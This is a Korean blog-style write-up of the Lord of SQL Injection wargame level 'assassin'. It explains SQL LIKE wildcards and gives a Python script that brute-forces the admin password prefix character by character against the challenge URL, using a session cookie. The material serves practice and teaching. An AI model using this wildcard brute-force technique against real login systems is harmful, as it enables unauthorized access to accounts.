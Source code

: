 ```yaml
---
title: LOS - 15번 assassin
category: Lord of SQL Injection
---
```


# [15] assassin

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F4y2Uz%2Fbtrnlsurpq9%2FGK4iDgR7Dsvjz5D8GAtD11%2Fimg.png">

## 풀이

또 새로운 유형이다.

 

잠시 노려보고 있자면 싱글쿼터 필터링을 우회할 방법이 딱히 보이지 않는다.

이 경우, 아마도 like절의 특성을 이용하여 admin 레코드를 뽑아오는 문제인 것 같았다.

 

먼저, like절에 사용되는 패턴에 대해 간단히 표로 정리해보았다.


<table style="border-collapse: collapse; width: 100%;" border="1" data-ke-align="alignLeft" data-ke-style="style13">
<tbody>
<tr>
<td style="width: 50.2326%; text-align: center;" colspan="2">SELECT * FROM 테이블 WHERE 컬럼 LIKE [PATTERN]</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">%</td>
<td style="width: 49.7674%; text-align: center;">모든 문자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">_</td>
<td style="width: 49.7674%; text-align: center;">한 글자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">A%</td>
<td style="width: 49.7674%; text-align: center;">A로 시작하는 모든 문자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">%A</td>
<td style="width: 49.7674%; text-align: center;">A로 끝나는 모든 문자</td>
</tr>
<tr>
<td style="width: 50.2326%; text-align: center;">%A%</td>
<td style="width: 49.7674%; text-align: center;">A를 포함하는 모든 문자</td>
</tr>
</tbody>
</table>

패턴을 살펴보니, pw=% 를 입력할 시 해당 테이블의 첫번째 레코드를 뽑아오게 될 것 같았다.

(∵ 모든 데이터가 해당 조건을 만족하므로)

보통 테이블의 첫번째 레코드는 admin 계정이기 때문에 설마 이렇게 간단하다고..? 의 마음으로 한번 입력해봤다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FZhKZn%2FbtrnjE9XUK5%2F1pVZviULToqZHTmyKVECv1%2Fimg.png">

역시 이렇게 간단할리가 없지...ㅎ

첫번째 레코드는 guest 계정이었다.

 

어떻게 admin을 뽑아올 지 고민한 결과.. 내리게 된 결론은 Brute Force 였다.

pw의 첫번째 자리에 0% ~ Z% 모든 경우의 수를 대입하여 Hello admin이 뜨는 경우를 찾는 것이다.

 

다만 이 방법을 사용할 때는 반드시 고려해야할 점이 있는데,

guest 계정과 admin 계정의 pw 앞부분이 겹칠 수 있다는 점이다.

 

때문에 적절한 대처 방법이 필요한데... 자세한 내용은 아래의 코드를 보면서 설명한다.

 

다음은 이번 문제를 풀기 위해 짜본 Python 자동화 코드이다.

```python
import requests

url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php"
cookie = "spin7uv9vl2fjnjet0tsug5eb6"
head = {"PHPSESSID":f"{cookie}"}

guest = ""
admin = ""
finish = False

print("💘 Brute Force를 시작합니다")

for len in range(1, 30):
    if (finish==True):
        break
    print(f"{len}번째 문자에 대해 검색중입니다..")
    for ran in range(48, 127):
        search = guest+chr(ran)
        param = f"?pw={search}%"
        my_url = url+param
        res = requests.get(my_url, cookies=head)
        if ("Hello admin" in res.text):
            admin = search+"%"
            print(f"👏 적절한 검색어는 {admin}입니다!")
            finish = True
            break
        elif ("Hello guest" in res.text):
            guest += chr(ran)
            break
```

[0] 먼저, 빈 문자열인 guest와 admin을 선언해준다.

 

[1-1] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest(빈 문자열)+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[1-2] 첫번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

⇒ Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 admin 계정과 guest 계정의 pw 첫번째 문자가 겹친다는 뜻이다. 둘의 문자가 같을 시 테이블 상 첫번째 레코드인 guest 계정이 fetch 되기 때문이다.

 

[2-1] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello admin이 떴을 시, guest+해당 문자열+%을 admin에 할당하고 중첩반복문을 완전히 탈출해준다.

[2-2] 첫번째 문자를 고정한 채로 두번째 문자에 대해 ASCII 48~126를 탐색하는 도중 Hello guest가 떴을 시, 해당 문자열을 guest에 추가하고 다음 루프로 넘어가준다.

⇒ 첫번째 루프에서와 마찬가지로, Hello admin이 뜨지 않고 Hello guest가 떴다면, 이는 두 계정의 pw 두번째 문자가 겹친다는 뜻이다.

 

이하는 동일한 로직으로 반복된다.

결국 해당 코드는 admin과 guest의 pw가 달라지는 지점의 admin의 앞자리를 출력하게 된다.

 

예를 들어,

admin pw : 123abc

guest pw : 123xyz

인 경우,

123a% 를 출력하고 종료되는 것이다.

출력문은 admin의 pw에 대한 적절한 검색어로 사용될 수 있다.

 

다음은 해당 코드의 실행 결과다.

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FmrP39%2FbtrnrjiteWP%2Flw2kiIcXMwaBwDksWvchJk%2Fimg.png">

Brute Force 결과, 적절한 검색어는 `902%` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fna0E6%2FbtrnoCXQ4Zi%2FntHXLfVKKBgbIcuxuF6Ky1%2Fimg.png">